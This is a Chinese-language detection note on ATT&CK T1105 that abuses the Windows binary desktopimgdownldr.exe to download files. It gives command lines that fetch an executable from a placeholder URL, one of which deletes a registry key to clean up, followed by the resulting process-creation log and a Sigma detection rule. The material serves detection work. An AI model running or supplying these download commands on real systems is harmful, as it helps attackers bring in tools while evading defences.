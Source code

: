 # T1105-win-入口工具转移-desktopimgdownldr.exe(白名单)

## 来自ATT&CK的描述

攻击者可能会将工具或其他文件从外部系统转移到被攻击的环境中。可以通过命令和控制通道从外部攻击者控制的系统复制文件，用以将工具带入被攻击的网络中，或通过其他工具（如 FTP）的替代协议。 也可以使用 scp、rsync 和 sftp等本地工具在Mac和 Linux上复制文件。

## 测试案例
desktopimgdownldr.exe位于Win10的system32文件夹中，原本用于设置锁定屏幕或桌面背景图像的。

**路径:**
```bash
- c:\windows\system32\desktopimgdownldr.exe
```

普通用户可以用以下命令来实现文件下载：
```bash
set "SYSTEMROOT=C:\ProgramData" && cmd /c desktopimgdownldr.exe /lockscreenurl:http://url/xxx.exe /eventName:desktopimgdownldr
```

管理员会多写一个注册表项，所以管理员的命令如下：
```bash
set "SYSTEMROOT=C:\ProgramData\" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://url/file.exe /eventName:desktopimgdownldr && reg delete HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PersonalizationCSP /f
```

用例：从Web服务器下载任意文件
所需权限：用户
操作系统：Windows 10
## 检测日志

windows安全日志

## 测试复现

```bash
C:\Users\liyang\Desktop\asptest>set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```

## 测试留痕
```
已创建新进程。

  

创建者主题:

安全 ID: DESKTOP-PT656L6\liyang

帐户名: liyang

帐户域: DESKTOP-PT656L6

登录 ID: 0x47126

  

目标主题:

安全 ID: NULL SID

帐户名: -

帐户域: -

登录 ID: 0x0

  

进程信息:

新进程 ID: 0x24a4

新进程名称: C:\Windows\System32\desktopimgdownldr.exe

令牌提升类型: %%1938

强制性标签: Mandatory Label\Medium Mandatory Level

创建者进程 ID: 0x2588

创建者进程名称: C:\Windows\System32\cmd.exe

进程命令行: desktopimgdownldr.exe  /lockscreenurl:https://domain.com:8080/file.ext /eventName:desktopimgdownldr
```
## 检测方法/思路
参考Sigma官方规则:
```yml
title: Suspicious Desktopimgdownldr Target File

id: fc4f4817-0c53-4683-a4ee-b17a64bc1039

status: experimental

description: Detects a suspicious Microsoft desktopimgdownldr file creation that stores a file to a suspicious location or contains a file with a suspicious extension

author: Florian Roth

date: 2020/07/03

references:

- https://labs.sentinelone.com/living-off-windows-land-a-new-native-file-downldr/

- https://twitter.com/SBousseaden/status/1278977301745741825

logsource:

product: windows

category: file_event

tags:

- attack.defense_evasion

- attack.t1105

detection:

selection:

Image|endswith: svchost.exe

TargetFilename|contains: '\Personalization\LockScreenImage\'

filter1:

TargetFilename|contains: 'C:\Windows\'

filter2:

TargetFilename|contains:

- '.jpg'

- '.jpeg'

- '.png'

condition: selection and not filter1 and not filter2

fields:

- CommandLine

- ParentCommandLine

falsepositives:

- False positives depend on scripts and administrative tools used in the monitored environment

level: high
```

### 建议
从Sigma和elastic给出的规则来看，更多的是对进程和命令行参数进行监测，只要出现其中一个命令参数即告警。
## 参考推荐

MITRE-ATT&CK-T1105

<https://attack.mitre.org/techniques/T1105>

command_and_control_remote_file_copy_desktopimgdownldr

<https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/command_and_control_remote_file_copy_desktopimgdownldr.toml>

win_susp_desktopimgdownldr_file

<https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/file_event/win_susp_desktopimgdownldr_file.yml>

Desktopimgdownldr.exe

<https://lolbas-project.github.io/lolbas/Binaries/Desktopimgdownldr/>
